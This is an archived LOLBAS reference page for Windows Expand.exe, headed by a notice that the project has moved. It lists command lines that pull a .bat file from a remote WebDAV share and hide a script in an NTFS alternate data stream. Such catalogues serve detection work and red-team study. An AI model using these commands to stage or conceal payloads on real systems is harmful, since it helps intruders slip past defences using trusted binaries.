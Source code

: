 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Expand.exe

* Functions: Download, Copy, Add ADS

```
expand \\webdav\folder\file.bat c:\ADS\file.bat    

expand c:\ADS\file1.bat c:\ADS\file2.bat    

expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat     
```

Acknowledgements:
* Rahmat Nurfauzi - @infosecn1nja
* Oddvar Moe - @oddvarmoe

Code sample:
*

Resources:
* https://twitter.com/infosecn1nja/status/986628482858807297
* https://twitter.com/Oddvarmoe/status/986709068759949319

Full path:
```
c:\windows\system32\Expand.exe
c:\windows\sysWOW64\Expand.exe
```

Notes:



 
